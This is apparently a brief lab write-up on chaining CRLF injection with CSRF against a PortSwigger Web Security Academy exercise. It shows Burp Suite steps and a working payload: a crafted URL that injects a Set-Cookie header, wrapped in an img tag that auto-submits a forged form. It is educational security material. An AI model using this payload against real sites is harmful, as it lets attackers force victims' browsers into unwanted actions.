






example
Request:
Response:
From the response we can see that the site is vulnerable
Example of CRLF Injection with a site vulnerable also to CSRF (in particular to
CSRF
token is tied to a non-session cookie)1. Select the request → “right click” and
Engagement tools → Generate CSRF PoC
2. Options → Include auto-submit script
3. Regenerate
4. Instead of the
<script>......... </script> code
 Insert a URL where inject the cookie:
<img src="$cookie-injection-url" onerror="document.forms[0].submit()">
and use the vulnerability to inject your csrfKey cookie into the victim's browser:
/?search=myTest%0d%0aSet-Cookie:%20csrfKey=your-key
5. The result in our scenario will be:
<img src="https://ac9f1fe61e0ba4b8806b249200610069.web-security-academy.net/?search=myTest%0d%0aSet-Cookie:%20csrfKey=29o0XARLGUeDu3FHff3q769ovhSBytvu" onerror="document.forms[0].submit()">Bibliography:
https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookiehttps://www.acunetix.com/websitesecurity/crlf-injection/